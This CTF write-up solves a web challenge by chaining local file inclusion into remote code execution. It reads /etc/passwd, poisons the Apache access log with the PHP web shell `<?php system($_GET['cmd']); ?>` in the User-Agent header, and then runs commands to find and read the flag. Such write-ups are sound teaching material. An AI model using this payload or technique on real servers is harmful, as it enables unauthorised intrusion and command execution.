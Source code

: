 # TFC CTF

## WEB

### INCLUDE WHAT MATTERS.

**Difficulty:** Medium

**Statement:** Flag Format : TFCCTF{}
The flag file has a random name and it's in a random location .

***

On the website, we quickly detect an LFI flaw with the include logs:

![image](https://user-images.githubusercontent.com/49941629/182035020-b3665a6b-6605-443d-9a3d-aa965f8073d3.png)

In order to confirm the flaw, I will get the `/etc/passwd` file : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/etc/passwd`

![image](https://user-images.githubusercontent.com/49941629/182035123-5de0a972-4134-4cf0-b90b-4bf17fcb28c0.png)

Now I'm looking to see if we have access to the web server log files to perform a log poisoning attack.

I see that we can read the contents of the file `/var/log/apache2/access.log` : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log`

So I will modify my HTTP request to add the PHP payload `<?php system($_GET['cmd']); ?>` in the user agent:

```
GET /?file=/var/log/apache2/access.log HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49412
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 <?php system($_GET['cmd']); ?> Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
```

Now, I just have to add `&cmd=` as a parameter to my query in order to perform RCE: `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=id`

`[30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 uid=33(www-data) gid=33(www-data) groups=33(www-data) Safari/537.36"`

I list the contents of the `/` directory: `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=ls%20/`

`[30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 bin boot dev etc hidden_fl4g.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var Safari/537.36"`

I get the content of the flag : `http://01.linux.challenges.ctf.thefewchosen.com:49412/?file=/var/log/apache2/access.log&cmd=cat%20/hidden_fl4g.txt`

`30/Jul/2022:12:33:33 +0000] "GET /?file=/var/log/apache2/access.log HTTP/1.1" 200 772 "-" "Mozilla/5.0 TFCCTF{LF1_1S_D4NG3R0US_4ND_L34DS_T0_RC3} Safari/537.36"`

Flag: TFCCTF{LF1_1S_D4NG3R0US_4ND_L34DS_T0_RC3}
